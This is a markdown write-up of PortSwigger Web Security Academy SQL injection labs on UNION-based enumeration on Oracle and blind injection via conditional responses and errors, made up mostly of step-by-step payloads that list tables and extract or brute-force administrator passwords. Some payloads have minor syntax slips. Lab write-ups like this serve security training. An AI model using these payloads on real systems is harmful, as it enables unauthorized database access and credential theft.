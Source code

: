 # SQL Injection Part 4: Portswigger Labs
### [Lab 10: SQL injection attack, listing the database contents on Oracle](https://0a4000fb036fe53ec00903d500a80086.web-security-academy.net/filter?category=Lifestyle)
**To solve: Login as the administrator**

**STEP 1:**
Find number of columns 
```sql
' UNION SELECT null,null FROM DUAL--
```

**STEP 2:**
Find columns that contains text
```sql
' UNION SELECT 'a', 'a' from DUAL--
```

**STEP 3:**
Output the list of tables in the database 
```sql
' UNION SELECT table_name,null FROM all_tables--
```

**STEP 4:**
Output the column names of the users table
```sql
' UNION SELECT column_name,null FROM all_tab_columns WHERE table_name = 'USERS_RANDOM'--
```

**STEP 5:**
Use the USERNAME_RANDOM and PASSWORD_RANDOM column and USERS_RANDOM table to get credentials
```sql
' UNION SELECT USERNAME_RANDOM,PASSWORD_RANDOM FROM USERS_RANDOM--
```

**STEP 6:**
Login

### [Lab 11: Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

**To solve: Login as administrator**

**STEP 1**
Finding vulnerable parameter which here is tracking cookie
```html
trackingId = "xxxxxxxxxxxxx' and 1=0--
```

> If this tracking id exists -> query returns value -> Welcome back message

> If the tracking id doesn't exist -> query returns nothing > no welcome back message

**STEP 2:**
Confirm users table exist
```sql
trackingId = xxxxxxxxxxxxx' and (select 'x' from users LIMIT 1) = 'x'--
```

**STEP 3:**
Confirm that username administrator exists in users table
```sql
trackingId = 'xxxxxxxxxxxxx' and (select username from users where username='administrator') = 'administrator'--
```

**STEP 4:**
Enumerate the password length
```sql
trackingId = 'RVLfBu6s9EZRUVYN' and (select username from users where username = 'administrator' and LENGTH(password) > 1 ) = 'administrator'--
```

> we graually increase the length of password till we don't get welcome back message

> Till 19 character we get welcome back message -> password is exactly 20 character

**STEP 5:**
Enumerate the password
```sql
trackingId = 'RvLfBu6s9EZRLVYN' and (select substring(password,1,1) from users where username='administrator')='a'--
```

> substring divides the password -> This give us oppurunity to bruteforce each character at a time

**STEP 6:**
Login

### [Lab 12: Blind SQL injection with conditional errors](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

**To solve:**
Login as administrator

**STEP 1**
Finding vulnerable parameter which here is tracking cookie
```sql
trackingId = "xxxxxxxxxxxxx' || (select '' FROM dual) ||'
```

> Using ***and*** operator gives error ->> database is oracle
>> trackingId = xxxxxxxxxxxxx' || (select '' FROM dual) ||' ->> No Error


**STEP 2:**
Confirm users table exist
```sql
trackingId = xxxxxxxxxxxxx' and (select 'x' from users LIMIT 1) = 'x'--
```

**STEP 3:**
Confirm that username administrator exists in users table
```sql
trackingId = xxxxxxxxxxxxx' || (select CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM dual) || ' 
```
> 1 is not equal to 0 so ELSE statment is executed ->> No Error

```sql
trackingId = xxxxxxxxxxxxx' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator') || '
```
> This syntax gave error ->> username administrator exist

**STEP 4:**
Determine the password length
```sql
trackingId = xxxxxxxxxxxxx' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' and LENGTH(password)>1) || '
```
> LENGTH(password) > 19 ) ->> Error

> LENGTH(password) > 20 ) ->> No Error
>> password is of exactly 20 character

**STEP 5:**
Enumerate the password
```sql
trackingId = xxxxxxxxxxxxx' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' and substr(password,1,1)='a' || '
```
> Iteratively brute forcing each characters
>> substr(password,1,$1$)='$a$'

**STEP 6:**
Login




